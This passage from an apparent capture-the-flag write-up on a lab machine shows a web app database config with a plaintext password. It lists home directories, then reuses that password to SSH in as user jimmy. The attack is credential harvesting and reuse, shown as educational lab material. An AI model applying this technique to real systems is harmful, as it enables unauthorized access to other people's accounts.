 ```shell
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```

By taking a look at the home directory, we can find that we have 2 users `jimmy` and `joanna` on this box.
```shell
$ ls -l /home
total 8
drwxr-x--- 5 jimmy  jimmy  4096 Nov 22  2019 jimmy
drwxr-x--- 6 joanna joanna 4096 Nov 28  2019 joanna
```

Try to login as these users with the password `n1nj4W4rri0R!` we found.<br>
We can use the password for `jimmy`.
```shell
root@kali:~# ssh jimmy@10.10.10.171
The authenticity of host '10.10.10.171 (10.10.10.171)' can't be established.
ECDSA key fingerprint is SHA256:loIRDdkV6Zb9r8OMF3jSDMW3MnV5lHgn4wIRq+vmBJY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.171' (ECDSA) to the list of known hosts.
jimmy@10.10.10.171's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jul 14 15:03:52 UTC 2020

  System load:  0.04              Processes:             129
  Usage of /:   49.3% of 7.81GB   Users logged in:       0
  Memory usage: 19%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.


Last login: Thu Jan  2 20:50:03 2020 from 10.10.14.3
jimmy@openadmin:~$
```
